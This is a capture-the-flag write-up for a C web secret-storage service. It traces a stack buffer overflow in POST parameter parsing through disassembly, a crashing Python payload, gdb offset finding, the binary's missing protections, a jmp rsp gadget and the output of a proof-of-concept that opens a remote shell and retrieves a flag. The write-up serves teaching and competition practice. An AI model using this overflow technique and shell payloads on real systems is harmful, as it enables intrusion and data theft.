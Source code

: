 # FHM Maintenance

## Description

> Password-protected web storage for secrets in C.

The provided description says it well, it's a web storage to store a secret.
This service created by team *M.I.S.T* is a **very** light HTTP server, so
light that I may even say it's a server which communicate using a HTTP-like
format.

You can:
- Get a static page
- Register a user with his secret
- Retrieve a secret

The access to this different functions is done through the HTTP method and
the URL:

| Action      | Method | URL        |
| ----------: | :----: | :--------- |
| Static page | GET    | /extern/\* |
| Get secret  | GET    | /intern    |
| Save secret | POST   | _*_        |


No need to develop the static page aspect as it's a basic HTTP behaviour.
However, saving and retrieving a secret must follow a specific scheme.

To register a secret, you must send a POST request with all three
parameters `username`, `pass` and `secret`. **Note: `secret` has
not to be the last parameter, see** [vulnerabilities](#vulnerabilities).

To retrieve your secret, you must send a GET request with a HTTP basic
authentication header. Otherwise, you'll be asked to authenticate. Of course,
the credentials are the ones of the secret you want to get.

If you like web interfaces, you can start browsing `/extern/index.html` to
perform these actions easily.


### Flag

Flag Description:

> Flags are identified by the username.

The *flag* is the secret stored by the user *flag_id*.

For the technical aspect of the storage of the flags, it's very simple. Every
`username`, `pass` and `secret` are stored in a file under the
`rw/doc_root/htpass/` directory. The name of the file is the *url-safe base64*
encoding of the *SHA1* hash of the `username`. And the content of this file is:
```
username:{SHA}base64_of_sha1_of_pass
secret
```


## Vulnerabilities

As introduced in [description](#description), there is a strange behaviour when
`secret` is the last parameter of a POST request. We can just look at
the function which extract POST parameters (`get_post_credentials`):

```asm
|       |   0x004026d6      be74434000     mov esi, str.secret_        ; "secret=" @ 0x404374
|       |   0x004026db      4889ef         mov rdi, rbp
|       |   0x004026de      e89de8ffff     call sym.imp.strstr         ;[5]
|       |   0x004026e3      4885c0         test rax, rax
|      ,==< 0x004026e6      7438           je 0x402720                 ;[6]
|      ||   0x004026e8      80780726       cmp byte [rax + 7], 0x26    ; [0x26:1]=0 ; '&'
|      ||   0x004026ec      488d7007       lea rsi, [rax + 7]          ; 0x7
|     ,===< 0x004026f0      0f847c000000   je 0x402772                 ;[7]
|     |||   0x004026f6      4889f2         mov rdx, rsi
|     |||   0x004026f9      0f1f80000000.  nop dword [rax]
|    .----> 0x00402700      4883c201       add rdx, 1
|    ||||   0x00402704      803a26         cmp byte [rdx], 0x26        ; [0x26:1]=0 ; '&'
|    `====< 0x00402707      75f7           jne 0x402700                ;[8]
|     |||   0x00402709      4829f2         sub rdx, rsi
|     |||   0x0040270c      4883c408       add rsp, 8
|     |||   0x00402710      488dbb000100.  lea rdi, [rbx + 0x100]      ; 0x100
|     |||   0x00402717      5b             pop rbx
|     |||   0x00402718      5d             pop rbp
|     ||`=< 0x00402719      e972e9ffff     jmp sym.imp.memcpy          ;[4]
```

So to find the end of the parameter, the program only scans for the first `&`
character:
```asm
|    .----> 0x00402700      4883c201       add rdx, 1
|    ||||   0x00402704      803a26         cmp byte [rdx], 0x26        ; [0x26:1]=0 ; '&'
|    `====< 0x00402707      75f7           jne 0x402700                ;[8]
```

Neither the length is checked nor the end of the string. For `username` and
`pass` the length isn't checked neither, but the null character is.

We may then be able to overflow a buffer, but we must first study this buffer:

```
0             0x80            0x100           0x180
+---------------+---------------+---------------+
| username      | password      | secret        |
+---------------+---------------+---------------+
```

This buffer is located on the stack, in the stack frame of `buildBody`
function. It's exactly at address `rsp + 0x30` and the function prolog is:
```asm
mov r15, rsi
mov esi, 2
push r14
push r13
push r12
mov r12, rdi
push rbp
push rbx
sub rsp, 0x1b8
```

We may definitely be able control the flow of execution easily but first let be
sure the vulnerability really exists:
``` bash
$ python -c 'print "POST /test HTTP/1.0\r\n\r\nusername=test_user&secret="+"A"*0x100+"&pass=test_user\r\n";' | ../ro/FHM-Maintenance 
Segmentation fault
```

Then to find the exact amount of data to override to reach the return address,
we can just use **gdb**. First we'll generate the data to send:
```bash
python -c 'print "POST /test HTTP/1.0\r\n\r\nusername=test_user&secret=" + "".join([chr(i) for i in range(48,256)]) + "&pass=test_user\r\n"' > find_stack_length
```

Then in **gdb** we just have to run the program and inspect the stack:
```
gdb$ run < find_stack_length

Program received signal SIGSEGV, Segmentation fault.

gdb$ x/4w $rsp
0x7fffffffe008: 0xebeae9e8  0xefeeedec  0xf3f2f1f0  0xf7f6f5f4
```

To override the return address we then must write `0xf0 - 0x30 = 0xc0` bytes.


## Proof of Concept

Now that we can control the stack, we can look at the possible exploitation
options:
```
pic      false
canary   false
nx       false
bintype  elf
class    ELF64
arch     x86
bits     64
os       linux
endian   little
static   false
```

The binary is then:
  - a 64 bits ELF (but we already knew that)
  - dynamically linked
  - not position-independant (PIC/PIE)
  - not using canaries (hopefully as we want to use buffer overflows)
  - using a executable stack

As the binary isn't PIE, we can use ROP, but we may not find lots of gadgets
because of the dynamic linker. However here is one of the available gadgets:
```
0x00000000004027d9 : jmp rsp ; ret
```

In addtion the stack is executable, so we can do anything we want: opening a
shell, retrieving a file or anything else. We just need to append the
modified return address with the shellcode we want. However, while usual
shellcode must not to include null bytes, here we just need to have no `&`
characters. But doing so isn't more complicated than avoiding null bytes.
(*Note:* `0x26` is not a valid opcode in amd64)

The [PoC script][poc] can use the two first payloads: opening a shell and 
getting the flag by retrieving a file:
```bash
poc.py shell <ip> <port>
poc.py retrieve <ip> <port> <flag_id>
```

It crafts the shellcode based on **pwntools** library, but it could have been
done manually.

```bash
$ ./poc.py retrieve 192.168.56.101 20111 3977506951
FLG6KjytBw8ql5pl
```

```bash
./poc.py shell 192.168.56.101 20111
$ ls doc_root/extern
done.html
images
index.html
register.html
style.css
$ exit
```


[poc]: poc.py
